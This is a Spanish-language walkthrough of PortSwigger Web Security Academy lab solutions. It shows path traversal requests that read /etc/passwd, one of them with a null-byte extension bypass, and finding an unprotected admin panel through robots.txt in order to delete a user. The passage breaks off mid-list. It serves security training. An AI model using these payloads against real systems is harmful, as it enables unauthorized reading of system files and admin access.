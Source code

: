 ### [File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd

### [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=../../../etc/passwd%00.png

---

## [Access control vulnerabilities](https://portswigger.net/web-security/access-control)

### [Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

#### Descripción:

Existe un panel de administrador que no se encuentra protegido. Para hallar su url, dirigirse a https://url_del_laboratorio/robots.txt y observar que se inidicó no indexar /administrator-panel

#### Solución:

- Dirigirse a https://url_del_laboratorio/administrator-panel y eliminar el usuario carlos

### [Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

#### Descripción:

Para encontrar la url del panel de administrador, inspeccionar el código de la página de inicio y buscar el script que indica la url del mismo en:

- &lt;body>
  - &lt;div theme="ecommerce">
    - &lt;section class="mainContainer">
      - &lt;div class="container">
        - &lt;header class="navigation-header">
          - &lt;section class="top-links">
